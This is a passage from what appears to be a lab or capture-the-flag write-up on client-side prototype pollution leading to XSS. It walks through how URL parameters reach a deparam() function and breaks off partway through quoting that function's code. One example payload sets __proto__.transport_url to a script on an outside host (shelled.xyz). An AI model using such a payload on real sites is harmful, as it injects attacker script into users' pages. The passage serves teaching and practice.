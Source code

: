 <br/>

```jsx
location.href = "https://example.com/page?name=Josh&age=30"

new URL(location).searchParams.toString()
// returns: "name=Josh&age=30"
```
*This is how the `searchParams` function operates*

<br/>

The `config` only has a `params` key, and we need a `transport_url` key in order to trigger the XSS. 

<br/>

# Debugging

If the `deparam()` function performs some merging operation then we may be able to pollute the `config` object to have the following:

```jsx
config = {
	params: {
		__proto__: {
			transport_url: //shelled.xyz/xss.js
		}
	}
}
```

<br/>

The `deparam()` function is quite complex, but in summary it is:

1. Taking the URL parameters (ex. `name=Josh&age=30`)
2. Replacing all `+` characters with a space.
3. Splitting on the `&` character (ex. `[name=Josh, age=30]`)
4. Iterating over each element in (`[name=Josh, age=30]`)
5. Splitting at the `=` sign. `[name, Josh]`
6. Has some checks for nested parameters
7. I give up… 

```jsx
var deparam = function( params, coerce ) {
    var obj = {},
        coerce_types = { 'true': !0, 'false': !1, 'null': null };

    if (!params) {
        return obj;
    }

    params.replace(/\+/g, ' ').split('&').forEach(function(v){
        var param = v.split( '=' ),
            key = decodeURIComponent( param[0] ),
            val,
            cur = obj,
            i = 0,

            keys = key.split( '][' ),
            keys_last = keys.length - 1;

        if ( /\[/.test( keys[0] ) && /\]$/.test( keys[ keys_last ] ) ) {
            keys[ keys_last ] = keys[ keys_last ].replace( /\]$/, '' );
            keys = keys.shift().split('[').concat( keys );
            keys_last = keys.length - 1;
        } else {
```